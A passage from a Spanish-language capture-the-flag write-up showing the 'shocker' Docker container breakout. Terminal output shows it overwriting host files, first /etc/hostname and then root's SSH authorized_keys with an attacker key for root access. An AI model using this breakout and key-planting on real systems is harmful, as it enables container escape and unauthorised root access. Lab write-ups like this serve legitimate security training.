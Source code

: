 ```shell
[*] Brute forcing remaining 32bit. This can take a while...
[*] (sudoers) Trying: 0x00000000
[*] #=8, 1, char nh[] = {0xf9, 0x02, 0x06, 0x00, 0x00, 0x00, 0x00, 0x00};
[!] Got a final handle!
[*] #=8, 1, char nh[] = {0xf9, 0x02, 0x06, 0x00, 0x00, 0x00, 0x00, 0x00};
[-] open_by_handle: Permission denied

```

Vaya...
```shell
saul@talkative:~$ sudo su
[sudo] password for saul: 
saul is not in the sudoers file.  This incident will be reported.
```


Sin embargo, si intentamos modificar otro archivo como el `/etc/hostname` por probar...
```shell
(remote) root@c150397ccd63:/tmp# ./shocker_write /etc/hostname test
...
[*] #=8, 1, char nh[] = {0x8a, 0x6e, 0x06, 0x00, 0x00, 0x00, 0x00, 0x00};
Success!!
```

Vemos que funciona.
```shell
saul@talkative:~$ cat /etc/hostname
test
tive
```

Alternativamente, podemos intentar escribir al archivo `/root/.ssh/authorized_keys` mi clave publica de atacante, y pasarme la clave privada la consola que tenemos como `saul` en la máquina víctima, para a través de ahí conectarme por SSH utilizando mi clave privada.

Cogemos mi clave pública `id_rsa.pub` y la copiamos a la máquina víctima al archivo `authorized_keys`
```shell
(remote) root@c150397ccd63:/tmp# echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQCs/aNkke9LIHvwrIqFLiLavlSa5gVzvG6EibfhsRDbRY0DLzVMaWw2TmVJ/sjcWBg7DqGFJaJ70cqh7rCX9WYQnUTQUoo2yQ4yRG6UxDOEzD6Yt2JbxEZdsZqX7S1NY33zv9vtI26rLzcMLvLgjux8+dp+cuHqt3ZnBTcH....... pointedsec@parrot" > authorized_keys
```


Y ahora ejecutamos el exploit, y... ¡esto tiene mejor pinta!
```shell
(remote) root@c150397ccd63:/tmp# ./shocker_write /root/.ssh/authorized_keys authorized_keys 
[***] docker VMM-container breakout Po(C) 2014 [***]
[***] The tea from the 90's kicks your sekurity again. [***]
[***] If you have pending sec consulting, I'll happily [***]
[***] forward to my friends who drink secury-tea too! [***]

<enter>

[*] Resolving 'root/.ssh/authorized_keys'
[*] Found lib32
[*] Found ..
[*] Found lost+found
[*] Found sbin
[*] Found bin
[*] Found boot
[*] Found dev
[*] Found run
[*] Found lib64
[*] Found .
[*] Found var
[*] Found home
```